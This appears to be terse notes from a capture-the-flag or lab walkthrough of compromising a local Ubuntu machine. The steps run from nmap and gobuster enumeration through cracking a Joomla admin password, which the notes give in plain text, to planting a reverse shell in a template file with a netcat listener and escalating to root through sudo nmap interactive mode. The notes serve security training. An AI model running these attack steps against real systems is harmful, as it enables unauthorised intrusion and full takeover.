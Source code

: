 192.168.1.12 ubuntu


**nmap scan ports**
nmap -sV -sC 192.168.1.12


**gobuster to search for hidden web objects** 

./gobuster.sh http://192.168.1.12/
./gobuster.sh http://192.168.1.12/joomla
http://192.168.1.12/joomla/administrator


**admin portal **
http://192.168.1.12/joomla/administrator/



**crack the hash**
192.168.1.12/joomla/password

https://crackstation.net/


admin
godhelpmeplz


**access index.php** 
http://192.168.1.12/joomla/templates/protostar/index.php

**set up nc in listening mode **
nc -lvnp 1234



**spawn bash shell**
 python -c "import pty;pty.spawn('/bin/bash')"

ctrl-z

stty raw -echo
fg


**check the privilege of www-data**
sudo -l 


**check nmap version **
nmap --version


**take advantage of interactive mode of nmap***
sudo nmap --interactive
!bash



